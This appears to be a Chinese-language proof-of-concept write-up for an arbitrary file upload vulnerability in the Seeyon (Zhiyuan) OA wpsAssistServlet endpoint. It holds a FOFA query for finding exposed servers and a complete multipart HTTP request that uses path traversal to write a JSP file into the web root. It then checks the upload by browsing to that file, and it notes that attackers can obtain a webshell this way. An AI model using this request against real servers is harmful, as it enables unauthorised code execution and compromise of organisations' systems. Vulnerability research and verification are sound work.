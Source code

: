<a name="DFDZj"></a>
# 一、漏洞背景
```java
2010年用友致远更名为致远协创；2017年更名为致远互联。用友致远协同管理软件精准定位于企事业组织行为管理的需求，融入先进的协同管理理念，运用领先的网络技术，是基于互联网的组织行为管理平台。用友致远协同管理软件为企事业组织提供了一个协同办公门户和管理平台，涵盖了组织运营涉及的协作管理、审批管理、资源管理、知识管理、文化管理、公文管理等内容，支持企事业组织的信息化扩展应用，能有效帮助组织解决战略落地、文化建设、管理规范、资源整合、运营管控等难题，是组织管理的最佳实践。用友致远有A6和A8两大协同软件产品线：A6协同管理软件以其成熟稳定、“易用、好用、适用”的产品特性被业界誉为“协同经典”。2007年底发布的A8协同管理软件，以强力支持集团化、多语言和跨平台应用为特点，被业界誉为“中国协同应用软件的新标准”。致远互联-OA wpsAssistServlet接口存在任意文件上传漏洞，黑客上传恶意文件后可以获取webshell。
```
<a name="NpLPF"></a>
# 二、fofa搜索语法
```java
app="致远互联-OA" && title="V8.0SP2"
```
<a name="TNcUl"></a>
# 三、漏洞复现
第一步，向目标发送如下数据包，其中path中的pajgatzw.jsp为回显文件
```java
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/pajgatzw.jsp&fileId=2 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=oklp586ac9dujytddee11e86fa698nmv

--oklp586ac9dujytddee11e86fa698nmv
Content-Disposition: form-data; name="upload"; filename="majgatzw.xls"
Content-Type: application/vnd.ms-excel

<% out.println("lnrrovkexhsxbzjwptmthmyjgnvgjhjk");%>  
--oklp586ac9dujytddee11e86fa698nmv--
```
![image](https://github.com/testyuo/poc/assets/170853752/0e39a22d-d772-446d-a960-24306d902c31)
<br />第二步，使用浏览器访问回显文件<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719237788335-3acbf253-4c46-4cf8-8d75-69f75d2b21ce.png#averageHue=%23fdfcfc&clientId=ud521e60a-9dae-4&from=paste&height=245&id=u9b851904&originHeight=306&originWidth=1025&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=16834&status=done&style=none&taskId=u094b6502-1e3f-43c6-b7f5-81edc18f79b&title=&width=820)<br />证明存在漏洞








